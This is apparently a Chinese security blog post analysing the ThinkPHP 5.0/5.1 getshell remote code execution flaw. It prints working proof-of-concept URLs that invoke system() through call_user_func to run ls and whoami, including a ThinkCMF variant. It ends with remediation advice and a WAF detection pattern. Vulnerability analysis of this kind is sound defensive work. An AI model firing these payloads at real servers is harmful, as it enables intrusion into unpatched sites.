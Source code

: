 ```yaml
---
layout: post
title:  "Thinkphp5 getshell漏洞分析"
---
```

# Thinkphp5 getshell漏洞分析

* 通杀所有使用了thinkphp5.0和5.1
* 实际上在不同使用thinkphp5开发的cms中getshell的参数会有差异

### 在thinkphp5 getshell poc
这是目前公开5.0.20的poc
/index.php?s=index/\think\app/invokefunction&function=call_user_func&var[0]=system&var[1]=ls
![图片0](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/0.jpg)<br />
调用过程如下
![图片1](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/1.jpg)<br />
详情分析：https://www.anquanke.com/post/id/167653
另外可利用的index/\think\request/input
传入data=ls name= default= filter=system
![图片2](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/2.jpg)<br />
通过call_user_func执行
![图片3](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/3.jpg)<br />
并不局限于以上两个方法，但一定是think\这个命名空间下的已知类
### thinkcmf利用过程区别
getshell poc
/public/index.php?s=portal/\think\app/invokefunction&function=call_user_func&function_name=system&parameters=whoami
![图片4](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/4.jpg)<br />
1.thinkcmf默认不存在index，这里我选用portal
![图片5](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/5.jpg)<br />
2.参数差异，这里要使用function_name parameters

### 防护
1.代码本身就更新thinkphp5，或修改代码。
2.防护设备可以匹配s=.*?/\\think\\.*?来判定，解释下s参数是thinkphp5 var_pathinfo的默认配置为s，利用的类目前也都是在think\这个命名空间下的已知类。